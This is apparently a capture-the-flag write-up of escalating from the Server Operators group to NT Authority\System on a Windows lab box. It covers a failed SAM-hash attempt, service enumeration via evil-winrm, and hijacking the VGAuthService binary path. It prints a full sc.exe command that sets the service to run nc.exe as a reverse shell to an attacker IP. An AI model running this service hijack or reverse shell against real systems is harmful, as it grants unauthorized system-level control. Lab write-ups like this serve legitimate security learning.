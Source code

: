 
### Path to NT Authority\System course correction: {#path-to-nt-authority-system-course-correction}

-   Inititally I actually went down the path of dumping the registry hives for a `SAM` attack. As we do not have access to an actual domain controller so a DC Sync/Dumping `NTDS.dit` attack was no feasible. Just getting NT Locally would be enough to meet our needs. However when performing this attack I was successul in extracting the administrators hash but all pass the hash attacks (PTH) and attempts to login is as the administrator would not work, so the account login must be restricted locally.
-   So now it's a case of looking at the other capabilites that we have as members of the "Server Operators" Group, e.g. the ability to start &amp; stop processes.


### Enumerating Services: {#enumerating-services}

-   I try various ways to enumerate the processes &amp; services manually using inbuilt tools in windows, however these are all denied.
-   **Processes**:
    -   {{< figure src="/ox-hugo/2024-09-01-105215_.png" >}}
-   **Services**:
    -   {{< figure src="/ox-hugo/2024-09-01-110052_.png" >}}
-   **Trying SharpUp**:
    -   {{< figure src="/ox-hugo/2024-09-01-110707_.png" >}}
-   **Evil-Winrm**:
    -   I didn't know this previously bu as we are using evil-winrm it has the ability to enumerate services that are running by running the `services` command even if other methods do not work.
        -   {{< figure src="/ox-hugo/2024-09-01-105457_.png" >}}
        -   Here we can see that the `VGAutheService.exe` binary is running as a privileged user/NT Authority System and the service name is `VGAuthService`
    -   I tried to enumerate if the service path was modifiable but all my efforts were denied. I am going to attempt to attack it anyway.
        -   I was able to query if I could stop it, which I can:
            -   {{< figure src="/ox-hugo/2024-09-01-120709_.png" >}}


### Attacking the Bin Path &amp; Getting System: {#attacking-the-bin-path-and-getting-system}

-   I am going to see if I can modify the binaries path to point to a binary I control, e.g. NC or a reverse shell. I will then stop the service &amp; restart it again. As the service runs as NT Authority\System it should run my binary with elevate privileges.
    -   +Note+: Sometimes this is what it is, trying until we find the right route.


1.  **Upload my binary, nc.exe**
    -   {{< figure src="/ox-hugo/2024-09-01-120741_.png" >}}
2.  **Stand up my listener**:
    -   {{< figure src="/ox-hugo/2024-09-01-120402_.png" >}}
3.  **Stop the process &amp; ensure it has stopped**:
    -   {{< figure src="/ox-hugo/2024-09-01-120824_.png" >}}
4.  **Modify the binary path to have cmd execute my nc.exe binary and connect back to my attack host**:
    -   {{< figure src="/ox-hugo/2024-09-01-120912_.png" >}}
    -   _**Explained**_:
        -   Initially I did just have the binpath be:
            -   `sc.exe config VGAuthService binpath="C:\Users\svc-printer\Documents\nc.exe -e cmd 10.10.14.131 9999"`
            -   However it kept failing. After doing some digging I found out why.
                -   If we start a service process it **will** fail if the service **MUST** is not a Windows Service; which means the reverse shell will fail. Instead if we have cmd launch and then run our reverse shell even if the service fails our reverse shell will persist as it will be backgrounded.
                -   Information here: <https://learn.microsoft.com/en-gb/windows/win32/api/winsvc/nc-winsvc-lpservice_main_functiona?redirectedfrom=MSDN>
5.  Start the process:
    -   {{< figure src="/ox-hugo/2024-09-01-120942_.png" >}}